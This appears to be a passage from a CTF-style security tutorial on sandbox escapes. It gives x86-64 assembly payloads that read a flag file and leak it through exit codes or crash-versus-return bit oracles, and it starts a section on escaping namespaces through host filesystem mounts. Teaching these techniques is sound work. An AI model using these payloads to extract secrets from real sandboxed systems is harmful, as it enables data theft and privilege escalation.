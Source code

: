 Using the exit code is pretty straightforward. We will read the flag into memory, then load a byte of it into the `exit()` argument, and call the function. In Assembly, we could leak the first byte:

```asmatmel
mov rax, 0
mov rdi, 3          ; "/flag" fd (already open)
lea rsi, [rsp-100]  ; read onto stack
mov rdx, 100
syscall             ; read("flag", flag, 100)
mov rax, 60
mov rdi, [rsi+0]    ; offset here is 0, increment for next byte
syscall             ; exit(flag[0])
```

This might give exit code 67 when we check using `echo $?`, which corresponds to the `C` character. To leak the whole secret, we simply keep doing this while incrementing the offset:

<details><summary>Python Script (go through all bytes)</summary></details>

When the exit code is not directly visible, you might be able to get a boolean response using the time or crash method. Implementing this can be done in various ways, but the simplest and most efficient way is to simply take the `n`th bit, and decide what to do depending on that bit.&#x20;

To crash the program, you could read/write from an unmapped address for a 1, and simply `ret` for a 0. This is nicer than a time-based boolean result because you get an instant yes/no response, allowing quicker and more confident extraction. To extract a single bit in assembly, you can first use a **byte** offset, and then shift it using a **bit** offset:

```asmatmel
    mov rax, 0
    mov rdi, 3
    lea rsi, [rsp-100]
    mov rdx, 100
    syscall
    mov al, BYTE PTR [rsi+1]  ; 8a 46 01 (01 is byte placeholder)
    and al, 2                 ; 24 02    (02 is bit  placeholder)
    jnz crash                 ; jump depending on result
    ret
crash:
    mov QWORD PTR [rax], 0    ; Write at a random unmapped address
```

We can then dynamically change this payload to get any byte and bit we need. In a Python script we go through all the bits to slowly recover the whole secret:

<details><summary>Python Script (go through all bits)</summary></details>

## Namespaces

The workings of namespaces can go very complex, so this section will not go very deep. It will only show a few simple ideas on how to escape from namespaces with specific permissive features.&#x20;

One dangerous part of namespaces is the ability to **mount** the host filesystem in the sandboxed environment. If you can read/write as a high-privilege user in the sandbox, you can do the same on the mount. This is the most interesting when you have access to a low user on the host machine, and access to a high user inside the sandbox. These can interact with each other to possibly receive high privileges on the host machine.&#x20;
